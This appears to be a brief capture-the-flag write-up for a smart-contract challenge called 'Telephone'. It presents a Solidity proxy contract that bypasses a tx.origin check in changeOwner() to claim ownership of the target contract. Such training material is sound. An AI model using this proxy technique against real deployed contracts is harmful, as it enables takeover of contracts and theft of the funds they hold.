 # Answer

Goal: Claim ownership of the contract.

## 1. Becoming the owner

```changeOwner()``` only line of defence is that msg.sender and tx.origin can't match. A away to work around this is to proxy the call using a contract:

```solidity
contract TelephoneExploit {

    Telephone t;

    constructor (address telephoneAddr) {
        t = Telephone(telephoneAddr);
    }

    function exploit() external {
        t.changeOwner(msg.sender);
    }
}
```